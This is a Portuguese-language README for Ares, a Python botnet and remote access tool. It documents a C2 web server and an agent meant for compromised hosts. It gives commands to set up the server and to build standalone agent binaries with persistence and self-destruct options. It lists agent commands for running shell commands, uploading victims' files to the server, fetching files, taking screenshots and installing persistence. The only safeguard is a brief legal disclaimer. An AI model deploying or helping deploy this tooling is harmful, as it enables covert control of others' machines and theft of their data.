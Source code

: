 ![image](https://cdn.freebiesupply.com/logos/thumbs/2x/ares-01-logo.png)

# Ares

Ares é uma botnet do tipo RAT (Remote Access Tool) escrita em Python.

__ADVERTÊNCIA: Utilize este software apenas de acordo com a legislação atual. O uso indevido deste software pode suscitar questões legais e éticas pelas quais não apoio e nem me responsabilizo .__

Ares foi desenvolvido em cima de duas aplicações principais:

- Um servidor C2 com interface web para gerência e administração dos agentes
- Um programa agente (agent), que é executado no host comprometido, e garante a comunicação com o C2

A interface da Web pode ser executada em qualquer servidor executando o Python. O agente pode ser compilado em executáveis nativos usando o ** pyinstaller **.

## Setup

Instalando as dependências:

```
pip install -r requirements.txt
```

Inicializando a base de dados:

```
cd server
./ares.py initdb
```

Se quiser compilar executáveis para Windows, rode as configurações do Wine (opcional):

```
./wine_setup.sh
```

## Server

Rode o webserver em python (suporta nodo debbuging):

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Ou rode usando gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

Seu servidor estará acessível em http://localhost:8080

## Agent

Rode o agente em python (altere as opções do config.py para adaptar ao seu cenário):

```
cd agent
./agent.py
```

Construa um binário standalone:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

Para ver uma lista de opções suportadas, rode ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executa o comando em um shell e retorna sua saída.

upload <local_file>
Faz uploads <local_file> para o servidor.

download <url> <destination>
Faz o downloads de um arquivo usando HTTP(S).

zip <archive_name> <folder>
Cria um arquivo zip no diretório especificado.

screenshot
Tira um screenshot.

python <command|file>
Executa um comando Python ou um arquivo local.

persist
Instala o agente (persistência).

clean
Desistala o agente.

exit
Mata o processo do agente.

help
Exibe este help.
```
